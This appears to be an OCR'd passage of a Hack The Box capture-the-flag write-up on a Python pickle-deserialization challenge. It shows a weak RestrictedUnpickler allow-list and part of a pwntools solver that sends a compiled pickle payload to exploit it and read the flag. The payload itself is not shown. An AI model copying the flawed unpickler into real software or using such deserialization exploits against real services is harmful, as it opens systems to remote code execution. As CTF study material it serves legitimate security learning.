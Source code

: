```python
        try:
            option = int(input('> '))
        except ValueError:
            print('Invalid input')
            print()
            continue
        if option == 1:
            view_members()
        elif option == 2:
            register_member()
        elif option == 3:
            print('Exiting...')
            exit()
        else:
            print('No such option')  
        print()

if __name__ == '__main__':
    main()```

```python
from base64 import b64decode, b64encode 
from io import BytesIO
import pickle as _pickle

ALLOWED_PICKLE_MODULES = ['__main__', 'app']
UNSAFE_NAMES = ['__builtins__']

class RestrictedUnpickler(_pickle.Unpickler):
    def find_class(self, module, name):
        print(module, name)
        if (module in ALLOWED_PICKLE_MODULES and not any(name.startswith(f"{name_}.") for name_ in UNSAFE_NAMES)):
            return super().find_class(module, name)
        raise _pickle.UnpicklingError()
    
def unpickle(data):
    return RestrictedUnpickler(BytesIO(b64decode(data))).load()
    
def pickle(obj):
    return b64encode(_pickle.dumps(obj))
```

### [__Solver__](#solver)

```python
from base64 import b64encode
from pickora import Compiler
from pwn import *

def send_payload(payload):
    payload = b64encode(compiler.compile(payload))
    io.recvuntil(b'> ')
    io.sendline(b'2')
    io.recvuntil(b': ')
    io.sendline(payload)

def get_flag():
    io.recvuntil(b'> ')
    io.sendline(b'1')
    io.recvuntil(b'HTB{')
    flag = io.recvuntil(b'}')
    return b'HTB{' + flag

```